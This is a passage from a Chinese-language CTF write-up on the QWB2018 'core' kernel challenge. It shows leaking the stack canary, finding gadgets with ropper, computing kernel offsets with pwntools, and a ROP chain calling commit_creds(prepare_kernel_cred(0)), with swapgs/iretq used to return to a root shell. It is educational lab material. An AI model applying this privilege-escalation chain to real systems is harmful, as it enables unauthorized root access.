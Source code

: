 ROP提权包含三步：
1. 信息泄露获取canary。
1. 栈溢出ROP实现提权。
1. 返回用户空间并创建`root shell`。
首先是泄露canary，设置全局变量为`0x40`时，并调用`core_read`。拷贝至用户空间的第一个数据是`canary`。

Pop rdi ret; 0; prepare_kernel_cred commit_creds

有了canary后，就可以栈溢出执行ROP链了。ROP的主要功能是调用`commit_creds(prepare_kernel_cred(0))`，函数的地址可以在`/tmp/kallsyms`中可以看到。

需要找到`gadget`，由于`vmlinux`有46m，用`ROPgadget`耗时会很久，师傅们都推荐用的[ropper](https://github.com/sashs/Ropper)，效率较高。

```
ropper --file ./vmlinux --nocolor &gt; ropgadget.txt
```

然后在`ropgadget.txt`中寻找gadget，gadget中地址是没有随机化的地址，因此需要依靠偏移得到真实地址，偏移计算方法如下：

```
In [1]: from pwn import *

In [2]: e=ELF("./vmlinux")
[*] '/home/raycp/work/kernel/qwb2018-core/vmlinux'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0xffffffff81000000)
    RWX:      Has RWX segments

In [3]: hex(e.symbols['prepare_kernel_cred']-0xffffffff81000000)
Out[3]: '0x9cce0'
```

再从`/tmp/kallsyms`中读取`prepare_kernel_cred`地址，计算得到内核基址，加上gadget的偏移得到gadget地址。

最终构造出来的rop链如下：

```
*(ptr + i++) = prdi_ret;
    *(ptr + i++) = 0;
    *(ptr + i++) = prepare_kernel_cred;
    *(ptr + i++) = prcx_ret;
    *(ptr + i++) = commit_creds;
    *(ptr + i++) = mov_rdi_rax_jmp_rcx;
```

最后一步是返回用户空间并创建`root shell`。寻找包含`swapgs` 的gadget恢复 GS 值，再寻找一条包含`iretq`的gadget返回到用户空间。

`iret`指令的IA-32指令手册如下：

```
the IRET instruction pops the return instruction pointer, return code segment selector, and EFLAGS image from the stack to the EIP, CS, and EFLAGS registers, respectively, and then resumes execution of the interrupted program or procedure. If the return is to another privilege level, the IRET instruction also pops the stack pointer and SS from the stack, before resuming program execution.
```
